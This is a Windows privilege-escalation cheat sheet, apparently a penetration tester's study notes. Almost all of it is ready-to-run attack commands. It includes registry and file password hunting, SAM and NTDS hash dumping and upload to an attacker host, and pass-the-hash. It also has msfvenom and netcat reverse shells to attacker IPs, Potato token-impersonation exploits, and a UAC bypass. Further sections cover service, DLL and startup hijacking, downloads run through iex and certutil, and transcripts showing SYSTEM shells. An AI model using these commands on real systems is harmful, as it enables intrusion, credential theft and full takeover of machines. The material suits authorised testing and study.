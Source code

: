 # Privilege Escalation (Windows)

<details>

<summary>Automated Tools</summary>

* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)

If unable to run scripts/executables on target, use Windows Exploit Suggester on attacker's machine

### Windows Exploit Suggester

On Victim: `systeminfo`

On Attacker:&#x20;

```bash
python2.7 windows-exploit-suggester.py --update
```

```bash
python2.7 windows-exploit-suggester.py -i systeminfo -d 2023-03-10-mssb.xls
```

### PowerUp.ps1

```bash
powershell -ep bypass -c "Import-Module .\powerup.ps1; Invoke-AllChecks"
```

```bash
powershell -ep bypass
Import-Module .\powerup.ps1
. .\powerup.ps1
Invoke-AllChecks
```

### Windows Privesc Check

<pre><code><strong>windows-privesc-check --dump -G
</strong></code></pre>

</details>

### Enumeration

<details>

<summary>Basic System Info</summary>

* To find the username the shell is running as

```bash
whoami
```

* Checks privileges

```bash
whoami /priv
```

* To find the OS, version and architecture

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

* List system-wide updates

```shell
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

* Powershell command to enumerate the loaded device drivers and kernel modules

```shell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```

* Request the version of each of the loaded driver

```shell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

</details>

<details>

<summary>Users &#x26; Groups</summary>

* To find the user and groups that a user belongs

```shell
net user <username>
```

* To find other accounts

```shell
net user
```

* Check who's in the local administrator group

```bash
net localgroup administrators
```

* Check what groups the user is in

```bash
whoami /groups
```

</details>

<details>

<summary>Registry</summary>

```bash
reg query HKLM /f password /t REG_SZ /s
```

* Find admin AutoLogon credentials

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

* Check if Always Install Elevated is enabled

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

</details>

<details>

<summary>Network </summary>

* Show network interfaces

```shell
ipconfig /all
```

* Show the routing table

```shell
route print
```

* Show active listening network connections

```shell
# To obtain the PID, listening ports
netstat -an | findstr LISTEN

# To determine which service is running on a particular port
tasklist /v | findstr <PID>
powershell -c Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
```

Are there any internal services? (Local address that's not 0.0.0.0)

* Show the firewall profile&#x20;
  * is it active?

```shell
netsh advfirewall show currentprofile
```

#### Show all firewall rules

* New:

```bash
netsh advfirewall firewall dump
```

* Old:

```shell
netsh advfirewall firewall show rule name=all
```

```bash
netsh firewall show state
```

```bash
netsh firewall show config
```

* Obtain different drives' names

```bash
wmic logicaldisk get caption
```

* List all drives that are currently mounted and those physically connected but not mounted

```shell
mountvol
```

</details>

<details>

<summary>Services </summary>

* View scheduled tasks

```shell
schtasks /query /fo LIST /v
```

* Lists applications that are installed by Windows Installer

```shell
wmic product get name, version, vendor
```

* To find the services

```bash
sc queryex type= service
```

* Running services

```shell
tasklist /SVC
```

</details>

<details>

<summary>Local Administrator Password Solution (LAPS)</summary>

* Secure and scalable way of remotely managing the local administrator password for domain-joined computers
  * ms-mcs-AdmPwd
    * Contains the clear text password of the local administrator account

## Check if LAPS is installed Locally

```powershell
# Identify if installed to Program Files
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'

# Identify if installed by checking the AD Object
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'
```

## Exploitation

```powershell
# PowerView
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/PowerView.ps1')
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}

# OR LAPSToolKit
# git clone https://github.com/leoloobeek/LAPSToolkit.git
iex (New-Object Net.Webclient).DownloadString("http://IP/LAPSToolkit.ps1")
# Show LAPS enabled computers && cleartext password if any
Get-LAPSComputers
# Get the groupname that can view LAPS passwords
Find-LAPSDelegatedGroups
# Find the accounts that can view LAPS passwords
Get-NetGroupMember -GroupName "XXX"
```

</details>

<details>

<summary>Files &#x26; Directories </summary>

Use `dir /a` to see hidden files (eg: `.git` files)

* Look at PowerShell history file

```sh
PS C:> cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine

# $env:APPDATA --> C:\Users\sql_svc\AppData\Roaming
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```bash
powershell -c dir $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
powershell -c type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Search for any file or directory that allows the Everyone group write permissions

```shell
accesschk.exe -uws "Everyone" "C:\Program Files"
```

* AccessChk from SysInternals

- Powershell cmd to find files that can be modified by everyone

```shell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

</details>

<details>

<summary>Paths</summary>

### User PATH

```bash
%PATH%
FOR /F "tokens=1,3* skip=2" %G IN ('reg query HKCU\Environment') DO @echo %G=%H %I
```

### Global PATH

```bash
 FOR /F "tokens=1,3* skip=2" %G IN ('reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"') DO @echo %G=%H %I
```

</details>

<details>

<summary>Password Hunting</summary>

* Searching for the string `password` in files recursively from a directory
  * `s` = recursive
  * `p` = skip non-printable characters
  * `i` = case insensitive
  * `n` = print line numbers

```bash
findstr /spin /c:"password" *.*
```

```bash
findstr /si password *.xml *.ini *.txt
```

* Windows Autologin

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

* Powershell history file

```powershell
# In Powershell
cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\

# In Cmd
C:\Users\YourUserName\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

* VNC

```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

* SNMP

```bash
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

* Putty

```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

* Registry

```bash
reg query HKLM /f password /t REG_SZ /s
```

```bash
findstr /si password *.txt *.ini *.config
```

</details>

<details>

<summary>Email Hunting</summary>

```bash
dir *.dbx /s
```

</details>

<details>

<summary>Presence of WSL</summary>

```bash
where /R c:\windows bash.exe
```

```bash
where /R c:\windows wsl.exe
```

</details>

<details>

<summary>Default files in Windows</summary>

* OS Determination

```bash
\windows\system32\license.rtf
```

```bash
\windows\system32\eula.txt
```

</details>

### Common Methods

<details>

<summary>Kernel</summary>

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

### SMBGhost&#x20;

```bash
# CVE-2020-0796
# https://github.com/danigargu/CVE-2020-0796

# Compile it with Visual Studio. Change payload in exploit.cpp line 204 and add msfvenom payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.60 LPORT=8081 -f dll -f csharp

# Compile it. Change 'debug' to 'release', set correct architecture. 
# Transfer to target

.\cve-2020-0796-local.exe 
```

### MS16-032

<pre class="language-bash"><code class="lang-bash"># https://github.com/egre55/windows-kernel-exploits/blob/master/MS16-032:%20Secondary%20Logon%20Handle/Invoke-MS16-032-Remote-Shell.ps1#L10
<strong>
</strong><strong>msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o reverse.exe
</strong>
#Edit inside Invoke-MS16-032-Remote-Shell.ps1
Remove all the "/c C:\Users\Public\Music\nc.exe host port -e cmd.exe"
Edit all the "C:\Windows\System32\cmd.exe" to "c:\HFS\reverse.exe"

# Must use the following 64bit Powershell exe
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -ep bypass .\Invoke-MS16-032-Remote-Shell.ps1
</code></pre>

</details>

<details>

<summary>Tater (Hot Potato)</summary>

[https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

Affects the various windows versions

* Windows 7
* Windows 8
* Windows 10
* Windows Server 2008
* Windows Server 2012

Transfer `tater.ps1` over to victim

```bash
. .\tater.ps1
```

```bash
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

</details>

<details>

<summary>Show Currently Stored Creds</summary>

```bash
cmdkey /list
```

```
## Output
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

```bash
runas /savecred /user:ACCESS\Administrator reverse.exe
```

</details>

<details>

<summary>Autoruns</summary>

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```shell
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Have to wait for an administrator to login

</details>

<details>

<summary>Unquoted Service Path</summary>

Eg: Consider the string "c:\program files\sub dir\program name". The system tries to interpret the possibilities in the following order:&#x20;

* _**c:\program.exe, c:\program files\sub.exe, c:\program files\sub dir\program.exe, c:\program files\sub dir\program name.exe**_

```sh
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" 
```

```shell
sc qc <service_name>
```

If `START_TYPE : 2 AUTO_START` , then put in the malicious file and `shutdown /r /t 0` to restart the computer (hence, restarting the service).

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

```shell
net start unquotedsvc
```

c:\program.exe&#x20;

c:\program files\sub.exe&#x20;

c:\program files\sub dir\program.exe

c:\program files\sub dir\program name.exe

</details>

<details>

<summary>Binary Hijacking (Service)</summary>

```bash
# Generate Reverse Shell Executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.222 LPORT=80 -f exe -o reverse.exe

# Stop the service first to replace binary, otherwise access is denied.
net stop kiteservice

# Overwrite the service executable with malicious rev shell exe
move reverse.exe KiteService.exe

# Restarts the service
net start kiteservice

# Netcat Listener
┌──(root㉿kali)-[/prac_oscp/192.168.191.151]
└─# nc -lvp 80                                         
listening on [any] 80 ...
192.168.218.151: inverse host lookup failed: Unknown host
connect to [192.168.45.222] from (UNKNOWN) [192.168.218.151] 49999
Microsoft Windows [Version 10.0.19043.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

</details>

<details>

<summary>AlwaysInstallElevated</summary>

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Both keys are set to 1

On kali:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

```shell
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

</details>

<details>

<summary>Scheduled Tasks</summary>

```bash
type C:\DevTools\CleanUp.ps1
```

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

</details>

<details>

<summary>Dumping Local NTLM Hashes</summary>

* Need to extract out SYSTEM and SAM registry hives but they are locked by SYSTEM process --> unable to read/copy the files
* Create a volume snapshot
  * ```
    wmic shadowcopy call create Volume='C:'
    ```
  * ```
    vssadmin list shadows
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
     C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
     C:\users\offsec.corp1\Downloads\system
    ```
* Using reg save
  * ```
    reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    reg save HKLM\system C:\users\offsec.corp1\Downloads\system
    ```
* Decrypt the SYSTEM & SAM files
  * creddump
    *   ```
        git clone https://github.com/Tib3rius/creddump7
        cd creddump7
        python3 -m venv venv
        pip3 uninstall crypto 
        pip3 uninstall pycrypto 
        install pycryptodome
        python3 pwdump.py ../system1 ../sam1 
        ```



</details>

<details>

<summary>Security Account Manger (SAM) Dump</summary>

* Located in `c:\windows\system32\config`
* Extract out the passwords, hashes

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

Transfer the SAM and SYSTEM files to kali thru SMB

```shell
copy C:\Windows\Repair\SAM \\10.11.67.208\kali\
```

```shell
copy C:\Windows\Repair\SYSTEM \\10.11.67.208\kali\
```

On Kali:

```shell
git clone https://github.com/Tib3rius/creddump7;pip3 install pycryptodome
```

On Kali:

```python
python3 creddump7/pwdump.py SYSTEM SAM
```

`admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::` –> First hash is LM hash followed by NTLM hash!

On Kali:

```bash
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Ntds.dit &#x26; SYSTEM Dump</summary>

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

</details>

<details>

<summary>Passing the Hash</summary>

* Pass in the full admin hash (includes both LM and NTLM hash, separated by colon)

```bash
pth-winexe -U 'admin%hash' //10.10.202.204 cmd.exe
```

</details>

<details>

<summary>User In Local Group with Admin Privileges (UAC Bypass)</summary>

### EventViewer-UACBypass

[https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass)

* Generate reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 EXITFUNC=thread -f exe -o reverse.exe
```

* Run `Invoke-EventViewer`

```bash
Import-Module .\Invoke-EventViewer.ps1
Invoke-EventViewer c:\temp\reverse.exe
```

</details>

<details>

<summary>Running Administrator account from normal user account</summary>

```bash
runas /env /profile /user:Administrator "c:\temp\nc.exe -e cmd.exe 192.168.45.5 443"
```

</details>

### Token Impersonation Attacks

<details>

<summary>PrintSpoofer (Windows 10, Server 2016/2019)</summary>

Works on all versions of Server 2016 and Server 2019, as well as every version of Windows 10 from at least 1607 onwards.

![](<../.gitbook/assets/image (147).png>)

![](<../.gitbook/assets/image (125).png>)

* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

- From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege

* This step is purely to simulate getting a service account shell

```bash
.\printspoofer64.exe -c "nc64.exe -e cmd.exe 192.168.45.213 53"
```

```bash
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

</details>

<details>

<summary>Juicy Potato</summary>

Does not work on Win10 version >= 1809, Server2019. Check Win10 versions [here](https://juggernaut-sec.com/wp-content/uploads/2022/05/image-218.png).

![](<../.gitbook/assets/image (137).png>)

* [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

- `SeImpersonatePrivilege` is enabled —> vuln to JuicyPotato PrivEsc
- Transfer nc.exe `copy \\10.10.14.6\share\nc32.exe .`

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

* If obtained the following error —> might be due to wrong CLSID
  * Find CLSID. For win server 2012 —> {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
  * [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
    * Find the BITS CLSIDs and test those first
  * Add as `-c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}`
    * `-c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

```bash
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
COM -> recv failed with error: 10038
```

* If obtained the following error —> might be windefender detecting and deleting the exploit.

```bash
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 2

[-] CreateProcessAsUser Failed to create proc: 2
```

</details>

<details>

<summary>Incognito</summary>

* Manual way: [https://github.com/milkdevil/incognito2/blob/master/incognito.exe](https://github.com/milkdevil/incognito2/blob/master/incognito.exe)
  * ```
    incognito.exe list_tokens -u
    msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=80 -f exe -o reverse_80.exe
    incognito.exe execute -c "sandbox\Administrator" reverse_80.exe
    ```

- Metasploit's method:
  * ```
    load incognito
    list_tokens -u      (Delegation tokens allow full authentication, while Impersonation tokens allow acting as another user.)
    impersonate_token corp1\\admin
    getuid
    ```



</details>

<details>

<summary>Rogue Potato</summary>

Works on versions of Windows after the changes took place (1809+)

Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege

* [Rogue Potato ](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0)

- Setting up a spoofed OXID resolver
  * Forwards Kali port 135 to port 9999 on Windows.

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<victim's IP>:9999
```

```bash
.\RoguePotato.exe -r 172.16.1.30 -e "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -l 9999
```

* `-c "{6d18ad12-bde3-4393-b311-099c346e6df9}"`

</details>

### Less Common Methods

<details>

<summary>Insecure Service Permissions</summary>

* Checks the “user” account’s permissions on the ”daclsvc” service

- “user” account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG)

```shell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

```shell
sc qc daclsvc
```

```shell
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

```shell
net start daclsvc
```

</details>

<details>

<summary>DLL Hijacking</summary>

* Find the DLLs that have `NAME NOT FOUND` and is in writable directories.
  * eg `c:\temp\hijackme.dll`

```bash
 // For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o        output.dll
 // For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.  dll
 
 #include <windows.h>
 
 BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
     if (dwReason == DLL_PROCESS_ATTACH) {
         system("cmd.exe /k net localgroup administrators user /add");
         ExitProcess(0);
     }
     return TRUE;
 }
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

* Transfer `output.dll` to `c:\temp\hijackme.dll`
* Restart the `dllsvc` service
  * `sc stop dllsvc`
  * `sc start dllsvc`

## OR..

In CLIENT01 process monitor:

![](<../.gitbook/assets/image (5) (1) (1).png>)

* Create malicious msasn1.dll & save to C:\Program Files\FileZilla Server --> Rev shell
  * ```powershell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o msasn1.dll
    ```
  * ```powershell
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
    ```
    *

        <figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>


  * Start Filezilla server
* ```powershell
  Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
  copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
  ```

</details>

<details>

<summary>Weak Registry Permissions</summary>

* To find weak registry perm, use the following command
  * Will show `NT AUTHORITY\INTERACTIVE Allow FullControl`

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* Using command prompt,

```bash
sc qc regsvc
```

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Registry entry for regsvc service is writable by NT AUTHORITY\INTERACTIVE group (essentially all logged-on users)

```basic
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Overwrite the ImagePath registry key to point to the reverse.exe executable

```bash
net start regsvc
```

</details>

<details>

<summary> Insecure service Executables</summary>

<pre class="language-shell"><code class="lang-shell"><strong>sc qc filepermsvc
</strong></code></pre>

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```shell
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Service binary (BINARY\_PATH\_NAME) file is writable by everyone)

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```shell
net start filepermsvc
```

</details>

<details>

<summary>Insecure GUI Apps</summary>

Login to user account

```bash
rdesktop -u user -p password321 10.10.201.218
```

Double-click `AdminPaint` shortcut on Desktop

```bash
tasklist /V | findstr mspaint.exe
```

Paint is running with admin privileges

In Paint, `File` –> `Open`. `file://c:/windows/system32/cmd.exe`

</details>

<details>

<summary>Startup Apps</summary>

* To search for writable startup apps folder
  * he `BUILTIN\Users`group has full access ‘(F)’ to the directory

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

* Generate reverse shell:&#x20;

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.20.202 LPORT=443 -f exe > reverse.exe
```

* Put `reverse.exe` into startup folder

```bash
copy reverse.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.exe"
```

* Wait for administrator to login

</details>

<details>

<summary>SeRestorePrivilege</summary>

```bash
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
mv C:\Windows\System32\cmd.exe c:\Windows\System32\utilman.exe
```

On Kali:

```bash
rdesktop 192.168.204.165
```

Win Key + U --> Spawned NT Authority\System shell

</details>

<details>

<summary>SeBackupPrivilege</summary>

On Victim:

```bash
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Transfer files to attacker:

```bash
# On Attacker:
wget https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
powershell -c curl.exe -F 'file=@c:\\temp\\system' http://192.168.45.162
powershell -c curl.exe -F 'file=@c:\\temp\\sam' http://192.168.45.162
```

Dump out the hashes

```bash
git clone https://github.com/Tib3rius/creddump7
python3 creddump7/pwdump.py system sam
```

</details>

<details>

<summary>WerTrigger</summary>

For Example, MySQL Service has File Write permission as SYSTEM

Checking to see if MySQL Service has File Write perm as SYSTEM:

<pre class="language-sql"><code class="lang-sql">MariaDB [(none)]> select load_file('C:\\temp\\chiselx64.exe') into dumpfile 'C:\\temp\\try.exe';
<strong>
</strong><strong>#Have File Write permission as SYSTEM through mysql.
</strong>c:\temp>icacls try.exe
try.exe NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
</code></pre>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger)

[https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

```sql
c:\temp>certutil -urlcache -f http://192.168.45.5/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/WerTrigger.exe WerTrigger.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/Report.wer Report.wer
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/phoneinfo.dll phoneinfo.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.

MariaDB [(none)]> select load_file('C:\\temp\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";
Query OK, 1 row affected (0.254 sec)

#After running WerTrigger.exe, we won't receive any prompt but we can still enter commands to execute.
c:\temp>WerTrigger.exe
c:\temp\nc.exe -e cmd.exe 192.168.45.5 445
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/craft2]
└─# nc -lvp 445
listening on [any] 445 ...
connect to [192.168.45.5] from craft.offsec [192.168.159.188] 49770
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>

